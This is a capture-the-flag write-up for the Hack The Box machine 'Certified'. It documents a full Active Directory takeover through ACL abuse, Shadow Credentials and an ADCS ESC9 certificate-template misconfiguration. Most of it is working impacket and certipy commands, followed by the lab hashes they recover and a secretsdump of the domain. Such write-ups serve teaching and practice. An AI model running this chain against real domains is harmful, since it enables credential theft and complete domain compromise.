

# Hack The Box - Certified


Certified is an Active Directory box that begins with a supplied low-privileged account and ends with full domain compromise through a combination of ACL abuse, Shadow Credentials, and an ADCS ESC9 misconfiguration.

## Reconnaissance

I started with a full port scan to identify the domain services.

```bash
nmap -p- --min-rate 10000 -oA scans/certified-alltcp 10.10.11.0
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49666,49668,49683,49684,49689,49718,49739 -sCV -oA scans/certified-services 10.10.11.0
```

The scan showed a Windows Domain Controller for `certified.htb`, with the hostname `DC01.certified.htb`.

```text
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  ncacn_http
636/tcp   open  ssl/ldap
3268/tcp  open  ldap
3269/tcp  open  ssl/ldap
5985/tcp  open  http
9389/tcp  open  mc-nmf
```

The TLS certificate exposed `DC01.certified.htb`, so I added both the domain and host to my hosts file.

## Initial Access

This box was unusual because credentials were provided up front:

```text
judith.mader : judith09
```

I used those credentials to begin enumerating the domain.

## BloodHound

I collected AD data with BloodHound Python and loaded it into BloodHound.

```bash
bloodhound-python -c ALL \
  -u judith.mader \
  -p 'judith09' \
  -dc dc01.certified.htb \
  -dns-tcp \
  --dns-timeout 10 \
  -ns 10.129.135.102 \
  -d certified.htb
```



The output confirmed the domain structure and showed that `judith.mader` had useful outbound control paths.

## Privilege Escalation

### First ACL Path

BloodHound showed that `judith.mader` could change the owner of the `Management` group. Members of that group could modify non-protected attributes of `management_svc`, and `management_svc` was also in `Remote Management Users`, meaning it could be used for WinRM access.

I changed the owner of `Management` to `judith.mader`.

```bash
impacket-owneredit -dc-ip 10.129.135.102 \
  -action write \
  -new-owner 'judith.mader' \
  -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' \
  CERTIFIED/judith.mader:'judith09'
```

Then I granted myself the right to modify group membership:

```bash
impacket-dacledit -dc-ip 10.129.135.102 \
  -action 'write' \
  -rights 'WriteMembers' \
  -principal 'judith.mader' \
  -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' \
  CERTIFIED/judith.mader:'judith09'
```

After that, I added `judith.mader` to the `Management` group:

```bash
impacket-net -dc-ip 10.129.135.102 \
  CERTIFIED/judith.mader:'judith09'@dc01.certified.htb \
  group \
  -name 'Management' \
  -join 'judith.mader'
```

That gave me the ability to attack `management_svc` using Shadow Credentials.

### Shadow Credentials to management_svc

Because the DC time was several hours ahead, I had to account for clock skew when using Kerberos.

```bash
faketime -f +7h certipy-ad shadow auto \
  -dc-ip 10.129.135.102 \
  -u judith.mader@certified.htb \
  -p judith09 \
  -account management_svc
```

That returned the NTLM hash for `management_svc`:

```text
a091c1832bcdd4677c28b5a6a1295584
```

I used that hash with WinRM and obtained a shell on the DC.

```bash
evil-winrm -u management_svc -H a091c1832bcdd4677c28b5a6a1295584 -i dc01.certified.htb
```

## Second Escalation

### Shadow Credentials to ca_operator

BloodHound also showed that `management_svc` had full control over `ca_operator`, so I repeated the Shadow Credentials attack against that account.

```bash
faketime -f +7h certipy-ad shadow auto \
  -dc-ip 10.129.135.102 \
  -u management_svc@certified.htb \
  -hashes :a091c1832bcdd4677c28b5a6a1295584 \
  -account ca_operator
```

This produced the NTLM hash for `ca_operator`:

```text
b4b86f45c6018f1b664f70805f45d8f2
```

## ADCS Enumeration

I checked the certificate templates using `ca_operator` credentials.

```bash
certipy-ad find -vulnerable \
  -dc-ip 10.129.135.102 \
  -u ca_operator@certified.htb \
  -hashes :b4b86f45c6018f1b664f70805f45d8f2 \
  -stdout
```

That identified a vulnerable template:

```text
CertifiedAuthentication
```

The important finding was:

```text
ESC9
```

This meant the template was vulnerable because `operator ca` could enroll and the template had no security extension.

## ESC9 Abuse

### Modify UPN

To exploit ESC9, I changed `ca_operator`’s `userPrincipalName` to `Administrator`.

```bash
certipy-ad account update \
  -dc-ip 10.129.135.102 \
  -u management_svc@certified.htb \
  -hashes :a091c1832bcdd4677c28b5a6a1295584 \
  -user ca_operator \
  -upn Administrator
```

### Request Certificate

Then I requested a certificate using the vulnerable template:

```bash
certipy-ad req \
  -dc-ip 10.129.135.102 \
  -u ca_operator@certified.htb \
  -hashes :b4b86f45c6018f1b664f70805f45d8f2 \
  -ca certified-DC01-CA \
  -template CertifiedAuthentication
```

The request succeeded and saved:

```text
administrator.pfx
```

### Restore UPN

I changed the UPN back to its original value:

```bash
certipy-ad account update \
  -dc-ip 10.129.135.102 \
  -u management_svc@certified.htb \
  -hashes :a091c1832bcdd4677c28b5a6a1295584 \
  -user ca_operator \
  -upn ca_operator@certified.htb
```

### Authenticate as Administrator

With the certificate, I authenticated as `Administrator` and recovered the NTLM hash:

```bash
faketime -f +7h certipy-ad auth \
  -dc-ip 10.129.135.102 \
  -pfx administrator.pfx \
  -domain certified.htb \
  -username Administrator
```

That returned:

```text
aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

## Final Access

With the Administrator hash, I could log in directly or dump more data from the domain.

```bash
impacket-secretsdump -hashes :0d5b49608bbce1751f708748f67e2d34 Administrator@dc01.certified.htb
```

That confirmed full control of the box and exposed the domain credential material.

## Attack Path

- **Scan the host** — identify the DC and AD services.
- **Use supplied credentials** — begin with `judith.mader`.
- **Map the domain** — run BloodHound collection.
- **Abuse ACLs** — take over the `Management` group.
- **Add self to group** — gain control over `management_svc`.
- **Use Shadow Credentials** — obtain the `management_svc` hash.
- **WinRM access** — land on the DC.
- **Repeat against `ca_operator`** — get the second hash.
- **Enumerate ADCS** — discover ESC9 on `CertifiedAuthentication`.
- **Exploit the template** — set UPN to `Administrator`, request certificate, and authenticate.
- **Recover Administrator hash** — finish with domain compromise.
